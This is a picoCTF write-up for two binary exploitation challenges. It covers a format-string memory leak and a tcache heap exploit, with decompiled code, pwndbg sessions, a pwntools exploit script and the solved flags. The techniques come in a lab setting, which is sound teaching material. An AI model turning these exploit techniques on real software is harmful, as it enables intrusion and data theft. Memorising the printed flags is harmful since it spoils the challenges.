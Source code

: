# Binary Exploitation
## Stonks ![p](https://img.shields.io/badge/Points-20-success) ![c](https://img.shields.io/badge/Binary-darkred)

We are given a C source file, so let's search for vulnerabilities. There is a clear _format string_ vulnerability at line 93, in the `buy_stonks` function:

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

Now we know we can use this to print what we need from the memory. Let's try locally, using a custom `api` file (the flag one) to easily recognize if we got the content, take a bunch of 'A's to try. If we then submit a sequence of `%x`s as input, we will leak the memory and see a sequence of 41, our flag file.

With no hesitation we can simply connect to the remote program and do the same, leaking at some point (after converting it into ASCII) `ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10\xff\xfb\x00}` that is clearly our flag. 

Just reverse it 4 by 4 characters and we obtain the flag: **picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}**

## Cache Me Outside ![p](https://img.shields.io/badge/Points-70-success) ![c](https://img.shields.io/badge/Binary-darkred)
> While being super relevant with my meme references, I wrote a program to see how much you understand heap allocations. nc mercury.picoctf.net 10097 [heapedit](https://mercury.picoctf.net/static/97a073d6009c8cbd05d03b91ac3a620b/heapedit) [Makefile](https://mercury.picoctf.net/static/97a073d6009c8cbd05d03b91ac3a620b/Makefile) [libc.so.6](https://mercury.picoctf.net/static/97a073d6009c8cbd05d03b91ac3a620b/libc.so.6)

First thing to do, open this with `Ghidra` and see the instructions:
```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined my_value;
  int my_address;
  int index;
  undefined8 *first_chunk;
  undefined8 *flag_chunk;
  FILE *flag_len;
  undefined8 *rand_chunk;
  void *new_buffer;
  undefined8 rand_1;
  undefined8 rand_2;
  undefined8 rand_3;
  undefined rand_4;
  char flag [72];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  flag_len = fopen("flag.txt","r");
  fgets(flag,0x40,flag_len);
  rand_1 = 0x2073692073696874;
  rand_2 = 0x6d6f646e61722061;
  rand_3 = 0x2e676e6972747320;
  rand_4 = 0;
  first_chunk = (undefined8 *)0x0;
  index = 0;
  while (index < 7) {
    flag_chunk = (undefined8 *)malloc(0x80);
    if (first_chunk == (undefined8 *)0x0) {
      first_chunk = flag_chunk;
    }
    *flag_chunk = 0x73746172676e6f43;
    flag_chunk[1] = 0x662072756f592021;
    flag_chunk[2] = 0x203a73692067616c;
    *(undefined *)(flag_chunk + 3) = 0;
    strcat((char *)flag_chunk,flag);
    index = index + 1;
  }
  rand_chunk = (undefined8 *)malloc(0x80);
  *rand_chunk = 0x5420217972726f53;
  rand_chunk[1] = 0x276e6f7720736968;
  rand_chunk[2] = 0x7920706c65682074;
  *(undefined4 *)(rand_chunk + 3) = 0x203a756f;
  *(undefined *)((long)rand_chunk + 0x1c) = 0;
  strcat((char *)rand_chunk,(char *)&rand_1);
  free(flag_chunk);
  free(rand_chunk);
  my_address = 0;
  my_value = 0;
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&%d_GLOBAL,&my_address);
  printf("Value: ");
  __isoc99_scanf(&%c_GLOBAL,&my_value);
  *(undefined *)((long)my_address + (long)first_chunk) = my_value;
  new_chunk = malloc(0x80);
  puts((char *)((long)new_chunk + 0x10));
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

What this program does is:
- read `flag.txt` and store it in a variable
- allocate a chunk of `0x80` 7 times (`flag_chunk`), containing "Congrats! Your flag is: <flag>", overwriting the pointer without freeing data
- store the `first_chunk` address in a variable
- after the loop allocate another chunk, `rand_chunk`, containing "Sorry, this will not help you: this is a random string"
- free `flag_chunk` and `rand_chunk` without zeroing them
- take `my_address` and `my_value` and use them `*(first_chunk + my_address) = my_value`, use address as offset from the first chunk and modify a byte
- allocate a `new_chunk` of the same size of the others and print it 

### Idea
We can identify a main vulnerability here: due to the fact that some chunks are freed (with size of 0x80) and a new one is allocated (with same size) the GCLIB's **tcache** mechanism will take part of this.  
[tcache](https://sourceware.org/glibc/wiki/MallocInternals#Thread_Local_Cache_.28tcache.29) (Thread Local Cache) is a powerful yet dangerous performance optimization method, that basically works like this (refer to the link for a better explanation).  
To speed up memory allocation, the allocator does not always search through all of the heap memory but it tries to reuse as many chunks as possible instead. That is, if we free a 0x80 size chunk and then we malloc a 0x80 size chunk, the former will be used to allocate the latter.

If we run the program with some random arguments, this is the result we get this, confirming all said before (the output is part of the previously freed `rand_chunk`):

![image](./heapedit.PNG)

The idea is that we can exploit the `tcache`, because of `new_chunk` allocation and print after `rand_chunk` free. We need to change the tcache value to point at the `flag_chunk` so that the print will actually print the flag.  
Luckily enough is the program itself to provided us a way to write a chosen value in a chosen address in memory.

### Pwn
Now what we can do to really understand the program flow is to run it with `gdb` and carefully look at registers and memory addresses. First I run `disassemble main` to see all assembly instructions and their address. I will not report here the output, but we can now mark down 3 important addresses where we can break and analyze the memory state: 0x4008c3, 0x4009a8, 0x4009b4.

**_0x4008c3_**: if break here, after the very first `malloc` executed, `RAX` will contain its return value. That is, the `first_chunk` (0x6034a0 in this case).

**_0x4009a8_**: is the instruction right after the first free, breakpoint here and look at `tcache` to get a confirmation
```
pwndbg> tcache
{
  counts = "\000\000\000\000\000\000\000\001", '\000' <repeats 55 times>, 
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x603800, 0x0 <repeats 56 times>}
}
```

As expected, this is the pointer at `flag_chunk`, the first freed chunk

**_0x4009b4_**: is the instruction right after the second free, again breakpoint and `tcache`
```
pwndbg> tcache
{
  counts = "\000\000\000\000\000\000\000\002", '\000' <repeats 55 times>, 
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x603890, 0x0 <repeats 56 times>}
}
```

As expected now there is the last freed chunk, so `rand_chunk`: only the last one is referred, in fact this points to the preceeding one, and so on:
```
pwndbg> x/4xg 0x603890
0x603890:	0x0000000000603800	0x276e6f7720736968
0x6038a0:	0x7920706c65682074	0x73696874203a756f
```

We need to find the last value (0x603890) in the heap, because we will need to modify it: the pointer at tcache (containing the pointer to the freed chunk) must be somewhere here.  
To execute the `find` command in gdb we need to specify the starting and ending addresses of the search space, i.e. the heap: `info proc mappings` returns us start = 0x602000, end = 0x623000

Now we can run:
```
pwndbg> find 0x602000, 0x623000, 0x603890
0x602088
warning: Unable to access 7029 bytes of target memory at 0x62148c, halting search.
1 pattern found.
```

So the heap address 0x602088 (call it `tcache_pointer`) contains the pointer to the last freed chunk (0x603890), the one we want to modify.  
To make the exploit work, we need to change the address of the `tcache_pointer` from pointing to the `rand_chunk` (0x603890) to pointing to the `flag_chunk` (0x603800). This is perfect because we can only modify a byte in memory, and 0x603890 can be easily modified to 0x603800 by replacing the last byte with a 0 byte.

We can now calculate the offset we will send to the program as `0x602088 - 0x6034a0 = -5144`, this is the relative offset that will be fixed for every execution, even if the two values changes due to memory space randomization. _Notice that in classical heap challenges we typically have an heap address leak and then we can calculate all needed offsets; here the concept is the same, with `first_chunk` behaving as the leaked address._

Now we just need to replace the last byte with a `\x00`, let's script that:
```python
from pwn import *

r = remote("mercury.picoctf.net", 10097)

offset = 0x602088 - 0x6034a0
new_value = b'\x00'

r.recvuntil(': ')
r.sendline(str(offset))     # send Address

r.recvuntil(': ')
r.sendline(new_value)         # send Value

r.interactive()
```

Flag: **picoCTF{97c85bbf2168f674263a1c5629b411a3}**
